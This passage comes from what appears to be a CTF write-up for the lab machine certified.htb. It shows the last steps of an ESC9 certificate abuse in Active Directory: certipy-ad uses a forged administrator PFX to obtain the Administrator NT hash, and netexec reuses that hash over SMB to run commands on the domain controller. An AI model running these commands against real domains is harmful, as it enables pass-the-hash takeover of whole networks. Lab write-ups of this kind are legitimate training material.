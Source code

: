 Finally, authenticate to the DC using the PFX and obtain the NT hash for the Administrator. 
```bash
certipy-ad auth -pfx administrator.pfx -domain 'certified.htb'
```
- `-pfx administrator.pfx` : PFX file generated in the second ESC9 abuse step above.
![Retrieve Administator NT Hash](Pasted image 20250314165242.png)
_Administrator NT Hash Retrieved_

We can then verify a successful domain dominance using netexec. With that we have fully compromised the certified.htb machine. 
```bash
netexec smb dc01.certified.htb -u Administrator -H '0d5b49608bbce1751f708748f67e2d34' -x 'whoami'
```
![Domain Compromise Proof](Pasted image 20250314165322.png)
_Domain Compromised_
